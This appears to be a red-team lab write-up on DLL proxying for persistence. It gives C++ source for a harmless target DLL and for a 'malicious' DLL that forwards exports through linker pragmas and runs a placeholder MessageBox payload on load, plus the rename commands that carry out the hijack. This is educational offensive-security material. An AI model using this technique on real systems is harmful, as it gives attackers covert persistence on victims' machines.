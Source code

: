 ```yaml
---
layout: post
title: "dll proxying for persistence"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dll-proxying-for-persistence/
---
```


---
layout: post
title: "dll proxying for persistence"
date: 2024-06-18
categories: persistence
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dll-proxying-for-persistence/
---

# DLL Proxying for Persistence

This is a quick lab to get familiar with a technique that's been on my todo list for some time - DLL proxying. This technique could be used for persistence or to intercept data, but in this lab, I am only concerned with persistence.

## Overview

In the context of malware, DLL proxying is a DLL hijacking technique, where a legitimate DLL say, `legit.dll` is renamed to `legit1.dll` and a malicious dll, which exports **all** the same functions that the `legit1.dll` exports, is placed instead of `legit.dll`.

Once the dll is hijacked, whenever a program calls a function, say `exportedFunction1` from `legit.dll`, here is what happens:

* `legit.dll` gets loaded into the calling process and executes its malicious code, say reaches out to the C2
* `legit.dll` forwards the call to `exportedFunction1` in `legit1.dll`
* `legit1.dll` executes the `exportedFunction1`

This function forwarding from one DLL to another is what gives the technique its name - DLL proxying, since the malicious DLL is sitting in between the application calling the exported function and a legitimate DLL that implements that exported function.

At a high-level, below diagram shows how it all looks before and after the DLL is hijacked:

![](<../../.gitbook/assets/image (654).png>)

## Walkthrough

At a high level, the technique works as follows:

1. Decide on which DLL to hijack. Let's say, it's located in c:\temp\legit.dll. Move it to c:\temp\legit1.dll
2. Get a list of all the exported functions of c:\temp\legit1.dll
3. Create a malicious DLL malicious.dll, that once loaded by the target process, executes your payload
4. Inside the malicious.dll, redirect/forward **all** the exported functions by legit.dll (this is the DLL we are hijacking) to legit1.dll (this is still the same DLL we are hijacking, just with a new name)&#x20;
5. Copy malicious.dll to c:\temp\legit.dll
6. At this point, any program that calls an **any** exported function in legit.dll will now execute your malicious payload and then transfer the execution to the same exported function in c:\temp\legit1.dll.

### Target DLL

For demo purposes, we will create our own DLL legitimate DLL to be hijacked, called `legit.dll`:

{% tabs %}
{% tab title="legit-dll.cpp" %}
```cpp
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" __declspec(dllexport) VOID exportedFunction1(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction1", "Hi from legit exportedFunction1", 0);
}

extern "C" __declspec(dllexport) VOID exportedFunction2(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction2", "Hi from legit exportedFunction2", 0);
}

extern "C" __declspec(dllexport) VOID exportedFunction3(int a)
{
    MessageBoxA(NULL, "Hi from legit exportedFunction3", "Hi from legit exportedFunction3", 0);
}
```
{% endtab %}
{% endtabs %}

Let's say we've now compiled the above as a `legit.dll` to `c:\temp\legit.dll`. It has 3 exported functions as shown below:

<div align="center">

<img src="../../.gitbook/assets/image (638).png" alt="">

</div>

To confirm the DLL works, we can see that calling `exportedFunction1` from inside the `legit.dll` gives a popup like this:

```
rundll32 c:\temp\legit.dll,exportedFunction1
```

![](<../../.gitbook/assets/image (639).png>)

We now have the `legit.dll` and its target function `exportedFunction1` to hijack, let's move on to the malicious DLL that will do the function proxying.

### Malicious DLL

Let's now create the `malicious.dll` - we will be using it to hijack programs that call functions from `c:\temp\legit.dll`. Compile the below as a `malicious.dll`:

{% tabs %}
{% tab title="malicious-dll.cpp" %}
```cpp
#include "pch.h"

#pragma comment(linker, "/export:exportedFunction1=legit1.exportedFunction1")
#pragma comment(linker, "/export:exportedFunction2=legit1.exportedFunction2")
#pragma comment(linker, "/export:exportedFunction3=legit1.exportedFunction3")

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        MessageBoxA(NULL, "Hi from malicious dll", "Hi from malicious dll", 0);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
{% endtab %}
{% endtabs %}

The key piece in the `malicious.dll` is the `#pragma` comment at the top, that tells the linker to export / forward (technical name is `Forward Export`) functions `exportedFunction1`, `exportedFunction2`, `exportedFunction3` to the module `legit1.dll`.

Also, note that once the `malicious.dll` is loaded, it will display a prompt saying `Hi from malicious dll`, but this could be any payload of our choice:

![](<../../.gitbook/assets/image (645).png>)

Let's test if the `malicious.dll` executes our payload - shows a message prompt:

```
rundll32 malicious.dll,whatever
```

![](<../../.gitbook/assets/image (643).png>)

### DLL Proxying / Hijacking

We now have all the required pieces to test the dll proxying concept.&#x20;

Let's move the `malicious.dll` to `c:\temp`, where `legit.dll` resides:

![](<../../.gitbook/assets/image (644).png>)

Rename the `legit.dll` to `legit1.dll` and `alicious.dll` to `legit.dll`:

```
mv .\legit.dll .\legit1.dll; mv .\malicious.dll .\legit.dll
```

![](../../.gitbook/assets/rename-files.gif)

### Moment of Truth

Now, let's invoke the `exportedFunction1` from `legit.dll` - this is our malicious DLL with DLL proxying enabled.

If the hijacking is successful, we will see the prompt `Hi from malicious dll` followed by the prompt `Hi from legit exportedFunction1` from the `legit1.dll`:

![Successful DLL proxying in action](../../.gitbook/assets/dll-proxying-forwarding-in-action.gif)

Implementing DLL proxying for a DLL that exports many functions may be a bit painful, but luckily there are multiple projects that help you automate this process, one of which is [https://github.com/Flangvik/SharpDllProxy](https://github.com/Flangvik/SharpDllProxy), so go check it out.

## References

[https://dl.packetstormsecurity.net/papers/win/intercept\_apis\_dll\_redirection.pdf](https://dl.packetstormsecurity.net/papers/win/intercept\_apis\_dll\_redirection.pdf)
@spotheplanet
